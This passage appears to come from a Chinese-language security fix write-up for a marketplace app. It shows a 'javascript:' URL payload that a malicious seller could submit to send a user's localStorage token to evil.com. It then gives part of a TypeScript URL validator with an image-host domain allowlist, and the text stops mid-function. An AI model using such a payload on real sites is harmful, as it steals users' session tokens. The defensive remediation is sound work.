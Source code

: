**攻击示例**:
```javascript
// 恶意卖家提交的URL
transferProof: "javascript:fetch('https://evil.com/steal?token='+localStorage.getItem('token'))"
```

#### 修复方案：白名单验证

**创建URL验证工具** (`/src/lib/url-validator.ts`):

```typescript
/**
 * 允许的图片URL域名白名单
 */
const ALLOWED_IMAGE_DOMAINS = [
  // AWS S3
  '.amazonaws.com',
  's3.amazonaws.com',
  // 阿里云OSS
  '.aliyuncs.com',
  // 腾讯云COS
  '.myqcloud.com',
  // 七牛云
  '.qiniucdn.com',
  '.qiniudn.com',
  // 又拍云
  '.upaiyun.com',
  // 本地开发
  'localhost',
  '127.0.0.1'
]

/**
 * 验证URL是否安全
 * - 只允许https协议（生产）或http（开发）
 * - 域名必须在白名单中
 * - 文件扩展名必须是图片格式
 */
export function isSafeUrl(url: string): boolean {
  if (!url || typeof url !== 'string') {
    return false
  }

  try {
    const parsed = new URL(url)

    // 1. 协议验证
    const isDevMode = process.env.NODE_ENV === 'development'
    const allowedProtocols = isDevMode ? ['http:', 'https:'] : ['https:']
    if (!allowedProtocols.includes(parsed.protocol)) {
      return false
    }

    // 2. 域名白名单验证
    const hostname = parsed.hostname.toLowerCase()
    const isAllowedDomain = ALLOWED_IMAGE_DOMAINS.some(domain => {
      if (domain.startsWith('.')) {
        return hostname.endsWith(domain) || hostname === domain.slice(1)
      }
      return hostname === domain
    })
    if (!isAllowedDomain) {
      return false
    }

```